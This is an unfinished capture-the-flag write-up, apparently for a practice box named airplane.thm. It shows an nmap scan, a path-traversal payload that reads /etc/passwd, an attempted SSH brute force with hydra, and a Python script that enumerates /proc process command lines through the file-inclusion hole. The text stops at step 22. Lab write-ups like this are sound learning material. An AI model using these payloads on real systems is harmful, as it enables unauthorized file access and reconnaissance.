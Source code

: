 wip
> Are you ready to fly?
#### Steps
1. Started out with an nmap scan `nmap -sV 10.10.101.33 -v`
2. Got the ports `22` and `8000`, ssh and http
3. Navigating to `10.10.101.33:8000`, I got redirected to `airplane.thm`
4. I added this to my host file for DNS resolution with:
```shell
sudo sh -c "echo '10.10.101.33 airplane.thm' >> /etc/hosts"
```
5. Navigating to the page, I found the page file specified with a page parameter -> `http://airplane.thm:8000/?page=index.html`
6. After checking source to make sure I didn't miss anything else, I modified the file path to grab `/etc/passwd`
```
http://airplane.thm:8000/?page=/../../../../etc/passwd
```
7. Easy LFI with no filters <333
8. From the file I found two users:
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```
9. I tried to use the same path traversal to read potential `user.txt` files in the home folders, but all I could find was a `.bashrc` file under hudsons directory (also I checked for ssh keys (`/.ssh/id_rsa`), there were none)
10. One interesting thing is the `carlos,,,` section of carlos's line the in the /etc/passwd file
11. This is the `GECOS` section, and the following commas just mean that phone number, email, etc parameters are empty
12. So relatively useless </3 (but hey new info to me)
13. I tried running `hydra` to bruteforce `ssh` with the new usernames, but I didn't have much luck
14. Going back to the site itself, I decided to run a scan on all ports `-p- -T5` to see if there were any other processes I missed
15. From this I found port `6048`
```
PORT     STATE SERVICE VERSION
6048/tcp open  x11?
```
16. Ok strange
17. My only guess was trying to find out what processes were running by checking files manually
18. All of this info is in the `/proc` directory
19. Most `/proc` subdirectories are PIDs (numbers) so automating requests shouldn't be too difficult
20. So I wrote a VERY barebones python script
```python
import requests

for pid in range(1, 1001):
    url = f"http://airplane.thm:8000/?page=/../../../../proc/{pid}/cmdline"
    try:
        res = requests.get(url, timeout=1) 
        print(pid, res.text)
    except requests.exceptions.RequestException as e:
        print(f"Error fetching PID {pid}: {e}")
```
21. Took about 5000000 years to run but it worked!
22. 

